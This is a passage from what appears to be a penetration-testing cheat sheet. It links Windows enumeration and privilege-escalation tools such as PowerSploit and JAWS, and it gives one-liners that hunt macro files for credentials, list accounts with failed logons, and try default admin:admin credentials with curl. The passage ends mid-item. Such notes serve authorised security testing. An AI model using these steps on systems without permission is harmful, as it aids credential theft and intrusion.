    - transfer `upload|download filename.txt`
- [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [just another windows enum script (jaws)](https://github.com/411Hall/JAWS)
- [powersploit](https://github.com/PowerShellMafia/PowerSploit)
- [oletools](https://github.com/decalage2/oletools)
    - read macro code for creds `olevba $file.name`
- [dbeaver](https://github.com/dbeaver/dbeaver)
    - multi-platform database tool for developers, SQL programmers, database administrators and analysts

# oneliners
- powershell
    - check recursively for files with size gt zero
        - `get-childitem -Recurse -File -Filter *.txt  | % {if($_.Length -gt 0) { write-host $_.FullName}}`
    - check security event log for users who are failing event 4625
        - `$a = get-winevent @{logname='Security'; id=4625}; foreach ($b in $a) { write-host $b.properties[5].value }`
- curl
    - pass username password via get request
        - `curl -u admin:admin http://$ip`
    - post
        - `

